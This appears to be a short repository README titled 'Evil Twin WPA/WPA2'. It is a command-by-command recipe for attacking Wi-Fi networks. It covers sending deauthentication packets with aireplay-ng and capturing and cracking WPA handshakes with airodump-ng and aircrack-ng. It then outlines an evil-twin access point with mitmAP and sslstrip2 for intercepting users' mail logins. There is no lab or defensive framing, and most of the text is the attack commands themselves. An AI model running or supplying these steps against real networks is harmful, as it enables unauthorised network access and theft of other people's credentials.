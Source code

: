 # Evil Twin WPA/WPA2


## Setup
```bash
sudo apt update
sudo apt upgrade
sudo apt install aircrack-ng
```


## Deauth Packet

```bash
sudo aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX InterfaceInMonitorMode
```


## Capture handshakes
```bash
sudo airmon-ng
```
Select interface in list and start it in monitor mode.

```bash
sudo airmon-ng start wlan1
sudo airodump-ng wlan1mon
```

Select AP and remember BSSID and channel.

```bash
sudo airodump-ng --bssid XX:XX:XX:XX:XX --channel X --write FileForDump InterfaceInMonitorMode
```

[More information](https://www.thepolyglotdeveloper.com/2018/06/crack-wireless-passwords-raspberry-pi-aircrack/).

## How to crack

Use [this site](https://www.onlinehashcrack.com/).
Or do it local.

```bash
sudo aircrack-ng DumpFile.cap -w path/to/dict
```

[More information](https://www.thepolyglotdeveloper.com/2018/06/crack-wireless-passwords-raspberry-pi-aircrack/).

## Evil Twin
mitmAP with same name and channel
deauth
??????
PROFIT


## Sslstrip2
go to [mail.ru](mail.ru)

check logss
